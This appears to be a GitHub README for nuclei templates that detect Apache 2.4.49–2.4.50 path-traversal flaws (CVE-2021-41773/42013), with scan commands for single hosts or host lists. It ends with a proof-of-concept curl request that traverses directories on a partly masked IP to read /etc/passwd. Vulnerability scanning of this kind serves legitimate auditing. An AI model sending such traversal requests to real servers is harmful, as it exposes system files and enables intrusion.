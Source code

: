 # Scan FOR APACHE versions "ZERO-DAY" 

```Apache Version 2.4.49 and 2.4.50 ``` 


```(CVE-2021-41773) and CVE-2021-42013)```


## How to use : 

You Will need nuclei ! 

https://github.com/projectdiscovery/nuclei


Check local nuclei install and verify template 

```nuclei  -t apache-vulnerable-versions.yaml -vv ```

and 

```nuclei -t apache-path-traversal-rce-v2.yaml -vv ```

You should see 

```[apache-vulnerable-versions] Vulnerable Apache Versions (2.4.49-2.4.50) (@psibot) [high] ```

and 

```[apache-path-traversal-passwd] Apache Path Traversal - /etc/passwd Exposure (@psibot) [critical]```

To scan target : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -u https://*.*.*.*:port ``` 

To scan targets in a file : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -l hosts.txt``` 


## Info about Nuclei templates 

```apache-vulnerable-versions.yaml``` - Detects version of Apache and will output HIGH if vulnerible. 

![apache-vulnerable-versions.yaml](https://imgur.com/WTDHjtO.png)


```apache-path-traversal-rce-v2.yaml``` - Will run a exploit and show the path vulnerible. Will output CRITICAL if  vulnerible.

![apache-path-traversal-rce-v2.yaml](https://imgur.com/Nrg7vER.png)

POC : 

```curl -s  -k  https://135.*.120.*:8443/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd ```

![POC](https://imgur.com/ijInybr.png)